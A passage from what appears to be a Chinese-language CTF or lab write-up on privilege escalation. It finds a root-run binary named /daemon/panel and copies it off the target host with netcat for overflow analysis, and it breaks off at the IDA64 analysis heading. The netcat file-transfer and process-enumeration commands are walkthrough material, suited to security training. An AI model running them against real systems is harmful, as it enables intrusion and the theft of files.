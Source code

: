 [![](assets/1703831476-6c6711b7b1b600b50037ac7d62f01cae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224632-ba193172-a4c6-1.png)

> 拿到 demon 用户权限

### 提权信息收集

进程中发现了 root 权限运行的/daemon/panel。既然是 root 身份运行，如果存在溢出即可利用获得 root 的 shell

```plain
ps aux | grep root
find / -name 'panel' 2>/dev/null
```

[![](assets/1703831476-2a0ae205532bd9e1aa6682e73bf49212.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224640-be73b3fa-a4c6-1.png)

nc 传到本地分析

```plain
nc -lvp 8080 >panel
nc 192.168.80.129 8080 <panel
```

### ELF 文件分析（IDA64）
